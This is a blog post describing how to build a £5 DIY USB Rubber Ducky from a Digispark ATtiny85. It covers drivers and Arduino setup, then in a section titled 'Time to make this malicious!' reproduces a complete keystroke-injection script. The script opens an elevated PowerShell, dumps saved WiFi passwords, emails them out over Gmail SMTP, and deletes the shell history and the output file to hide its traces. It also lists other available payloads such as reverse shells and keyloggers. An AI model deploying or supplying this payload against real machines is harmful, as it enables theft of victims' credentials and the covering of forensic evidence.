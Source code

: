 ```yaml
---
layout: post
title: £5 Rubber Ducky
author: TDSSEC
date: 2023-02-07 11:33:00 +0800
categories: [Physical Tools, DIY Rubber Ducky]
tags: [USB]
math: true
mermaid: true
image:
  path: /2023-02-07-5-Quid-Rubber-Ducky/attiny85-usb.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ATtiny85 board
---
```


## USB Rubber Ducky
TL;DR A USB drive that disguises itself as a Keyboard, that injects keystrokes allowing an attacker to install backdoors, capture credentials or remotely obtain sensitive files.

The rubber ducky by [Hak5](https://shop.hak5.org/products/usb-rubber-ducky) is amazing, but getting your hands on one in the UK can be a struggle. Not only this, but the resale price of $99 as of today's post makes this a lot more expensive than simply building one for yourself for less than £5!

## £5 D.I.Y Prerequisites
- [Digispark Attiny 85](https://www.instructables.com/Digispark-Attiny-85-With-Arduino-IDE/) - a programmable board with 6kb memory (after 2kb goes to the bootloader)
- [Arduino IDE](https://www.arduino.cc/en/software)- Open-source IDE allowing you to write and upload code to the board.   
- [Digistump Drivers](https://github.com/digistump/DigistumpArduino/releases) - It's needed..!

## Heads up about shorting this device.  
Taken from [DigiStump.com](https://digistump.com/wiki/digispark/tutorials/connecting) directly:  

> *The Digispark, due to its small size and low cost is not as robust as a full blown Arduino.*  
*When testing a new circuit we recommend that you test it with an external power supply first. Connecting a shorted circuit to the Digispark and connecting it to your computer could damage your computer and/or its USB ports. We take no responsibility for damage to your machine as a result of the use of a Digispark.*  
*We strongly recommend connecting your Digispark through a USB hub which will often limit the damage caused by a short circuit to the usb hub. For the record, we've found many computers have usb fuses built in, and when we blew them on our 27“ Mac monitor, thankfully they reset and everything worked after a power down.*  
*The Digispark does not have short circuit or reverse polarity protection. Connecting power to the Digispark power pins backwards will almost certainly destroy it.*
{: .prompt-danger }

I have been using a simple USB to USB cable:  
![USB to USB](/2023-02-07-5-Quid-Rubber-Ducky/usb-to-usb.jpeg){: width="500" height="102"}
## Drivers installation
Install the appropriate drivers for your Operating System in use. Without these installed, you might find that unless your Attiny85 came with a USB bootloader pre-installed, your OS wont detect this device!

## Arduino Setup
### Installation
1. Download and install Arduino.
Next, we need to download the boards for Digispark.  
3. Open **_File>Preferences_** and add the below URL to the **_Additional Board Manager URL_** section.
`http://digistump.com/package_digistump_index.json`
![preferences](/2023-02-07-5-Quid-Rubber-Ducky/preferences.png){: width="1024"}
4. Click OK...
5. Select **_Tools>Boards>Board Manager_**.
6. Search for **Digistump AVR Boards** and Install
![DigiStump AVR board](/2023-02-07-5-Quid-Rubber-Ducky/dvr-board-manager.png){: width="1024"}

### Choosing the Digistump AVR Board  
1. Open **_Tools>Boards>Digistump AVR Board_**.
2. Select **Digispark (Default - 16.5mhz).**
![DigiSpark 16.5mhz](/2023-02-07-5-Quid-Rubber-Ducky/digispark-board-choice.png){: width="1024"}

## Upload Test Script to the board  
With the drivers installed, as well as the Arduino setup, lets build and upload a built in keyboard test script.  
**Do not plug the Arduino in until step 5**.
1. Have the Digispark (Default - 16.5mhz) board selected within Arduino  
2. Open **_File>Example>DigisparkKeyboard>Keyboard_**.
![Keyboard Example](/2023-02-07-5-Quid-Rubber-Ducky/keyboard-example.png){: width="1024"}
3. Top-left select **_Verify_** button to check the code is OK.
4. Click the **_Upload_** button next to upload the code to the Arduino.
5. **Now you can plug the Arduino in**.

### Open a Text Editor  
1. Every 5 seconds, the ATtiny85 will write "Hello Digispark!" - Confirming this has worked!

## Time to make this malicious!  
### Scripts  
A list of premade scripts are available by [DigiSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts).  
These include the ability to:
- Extract WiFi credentials and automatically email them to you
- Reverse shells
- Keyloggers
- Fork Bombs
- Account Creations
- Execute Powershell scripts
- Funny scripts to change the users mouse settings or download and play videos off YouTube (RickRoll) ...

### Recover & Email WiFi passwords Example

    //This DigiSpark script writes the wireless network credentials to a csv file and emails it.
    //Credits to p0wc0w.

    //NOTE about the New Version of this script: The older script stopped working on newer builds of Windows 10
    //since Windows 10 now require an elevated cmd or powershell to execute these commands. This version should
    //be faster (better, stronger...) and should work on all builds of Windows 10. For previous versions
    //of Windows or simply older builds of Windows 10, the other version works like a charm.

    #include "DigiKeyboard.h"
    void setup() {
    }

    void loop() {
      DigiKeyboard.sendKeyStroke(0);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("(netsh wlan show profiles) | Select-String '\\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)}  | Select-String 'Key Content\\W+\\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -Path temp.csv;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(3000);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("$SMTPInfo = New-Object Net.Mail.SmtpClient('smtp.gmail.com', 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('GMAIL_USERNAME', 'GMAIL_PASSWORD'); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = 'SENDER_MAIL'; $ReportEmail.To.Add('RECEIVER_MAIL'); $ReportEmail.Subject = 'DigiSpark Report'; $ReportEmail.Body = 'Attached is your report. - Regards Your Digispark'; $ReportEmail.Attachments.Add('temp.csv'); $SMTPInfo.Send($ReportEmail);exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del (Get-PSReadlineOption).HistorySavePath;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print("cmd");
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del temp.csv"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(100);
      DigiKeyboard.print(F("exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      for(;;){ /*empty*/ }
      }
